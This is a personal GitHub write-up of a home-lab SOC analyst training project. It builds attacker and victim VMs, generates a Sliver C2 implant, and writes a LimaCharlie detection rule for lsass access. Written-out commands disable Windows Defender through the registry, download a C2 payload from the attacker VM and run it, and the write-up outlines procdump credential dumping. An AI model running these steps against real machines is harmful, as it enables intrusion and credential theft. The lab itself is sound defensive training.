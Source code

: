 # So You Want to be a SOC Analyst
Link to the Project (https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro)

## Objective
1. Setting up and managing a SOC environment.

2. Understanding how to detect, analyze, and respond to cyber threats.

3. Developing and tuning detection rules to identify malicious activities.

4. Learning how to implement threat mitigation strategies.

### Skills Learned

1.SOC Environment setup

2.Threat Dectection and Analysis

3.Rule Creation and Tuning

4.Incident Response and Mitigation

5.YARA scanning

6.Threat Intelligence and reporting

### Tools Used
1. Virtualization Software

2. Security Information and Event Management (SIEM) tools

3. Network Monitoring 

4. YARA

5. Kali Linux 

## Steps
# PART 1 
The first step was to set up the virtual environment. For this project "VMware Workstation Pro" by Broadcom was the software used. 

Ubuntu Server 22.04.1 ISO was the version used because this version comes pre Installed with necessary packages to do this project.

The VM Workstation created had the following specs: 14GB Disk size, 2 CPU cores, and 2GB RAM.

After downloading and setting everything up, I encountered my first error. I had to make sure DNS and outbound pings are working.


## This is what it is supposed to look like


![Screenshot (3)](https://github.com/user-attachments/assets/2565610e-979d-446e-99b8-ef3b094732ad)


## This is what I got

![Screenshot (2)](https://github.com/user-attachments/assets/ec614aca-52e4-477e-9de6-83bddb195d7c)

Seeing the response I noticed that I did not add a name server. To resolve the issue I entered the following command: 


sudo nano /etc/resolv.conf 


This allowed me to add a name server. I entered in 8.8.8.8 because it refers to one of Googles public DNS servers.


![Screenshot (4)](https://github.com/user-attachments/assets/87f0b3ad-9bb7-47e8-8401-b5bd41c820c1)

it started to work after the change.

![Screenshot (5)](https://github.com/user-attachments/assets/fe241b07-600a-4d1a-9b74-11c7776b2dec)


This Unbuntu VM will act as an attacker. Now that everything is working, I started to set up the windows VM. 

The link for the windows VM was not working so I  settled for a windows 11 x64 VM. After setting everything up, I disabled windows defender.

![Screenshot (6)](https://github.com/user-attachments/assets/2da84f22-48ab-48e5-a58a-17c487c0eb7b)

Ran the command to permanently disable defender via registry: 

REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f 

![Screenshot (7)](https://github.com/user-attachments/assets/1193917a-3529-4f9f-92f0-ba7eb4135684)

Now in safe mode, change the 7 sevices from 3 to 4.

![Screenshot (8)](https://github.com/user-attachments/assets/98048272-b3fc-4804-a79e-123731245f17)

Exit safe mode and it should be defender free.

Next I had to Install Sysmon which is a analyst tool.

 ![Screenshot (9)](https://github.com/user-attachments/assets/048b935d-f6b8-402c-bcb3-13300d366bb1)


LimaCharlie EDR is next to download. I had a little hiccup here. I had to put Lc_sensor.exe before the command line. I also had to enter DIR command to make sure lc_sensor.exe was there. It'll give an error message if lc_sensor.exe is entered in before the downloaded executable.

![Screenshot (10)](https://github.com/user-attachments/assets/9b6e2b30-f9ef-49d2-ab4a-b85c0c0ae42d)

Next was back to the attack system. I had to download sliver Linux server binary and create a directory for the future steps.


![Screenshot (11)](https://github.com/user-attachments/assets/d40b7860-deff-4c72-8783-067de2f4313d)

# Part 2 
generating C2 payload is next. I opened sliver server and entered the following command to generate payload:

generate --http [Linux_VM_IP] --save /opt/sliver

I also entered the command "implants" to confirm the implant configuration

![Screenshot (14)](https://github.com/user-attachments/assets/6be2b68a-9a64-4246-9c1d-2d05de389dcb)

Then I went back to the windows VM to download the C2 payload. In the windows command I entered the following command:

IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe


![Screenshot (15)](https://github.com/user-attachments/assets/6df9c14b-8cd7-4b60-ae17-414003419d7c)

Next is to start the command and control session. I went to the linux VM and enetered the command "http" which is the listener. In the wiundows VM, enter the download location of the executable (C:\Users\User\Downloads\<your_C2-implant>.exe) and the linux VM will pick it up.


![Screenshot (17)](https://github.com/user-attachments/assets/413b4899-32a1-4bcc-a790-3b5ef7d3889c)

I entered the "use" command to interact with the C2 session. Now that the linux VM is linked with the Windows, I went to Lima charlie to examine the EDR telemetry and to see if the C2 implant was present.


![Screenshot (19)](https://github.com/user-attachments/assets/98a6d627-e8a9-426b-8eb5-4bf4c50ed02f)

I also observed the timeline that shows window event logs(WEL) and EDR telemetry (NETWORK_CONNECTIONS)


![Screenshot (20)](https://github.com/user-attachments/assets/57a508ca-8069-493c-a930-6a9290061431)

# PART 3
This part was about crafting detections. This part uses lsass with the C2 implant I used in part 2. Lsass was not working for me so I could not see this part through but I followed along with the website screenshots. First you start with a procdump command in the linux VM then you dectect it with LimaCharlie. lsass.exe is a known sensitive process "SENSITIVE_PROCESS_ACCESS" event is what you would search for in the timeline.


![image](https://github.com/user-attachments/assets/f72581a8-aa8d-424e-9cb9-1838318235a3)


Once you find the event, You can make a detection and response(D&R) rule that would alert anytime the activtiy(SENSITIVE_PROCESS_ACCESS) occurs


![image](https://github.com/user-attachments/assets/7309d48f-f75e-4123-a806-dd137e0d16bd)


![image](https://github.com/user-attachments/assets/30364e32-4a6b-419e-b40e-ba62df0fc38b)

![image](https://github.com/user-attachments/assets/bb23318c-6985-4f72-97ad-f0f8c9733dff)

![image](https://github.com/user-attachments/assets/f1b16971-7b17-4ae9-b385-3676095261bb)

Once the rule is made, you can go back to the linux VM and run the procdump command to test if the rule you made will work and detect the command


![image](https://github.com/user-attachments/assets/1c9a3908-8fab-4b0e-953c-c21683a328e2)

![image](https://github.com/user-attachments/assets/1241def0-18b1-4627-beec-89db52d063ec)

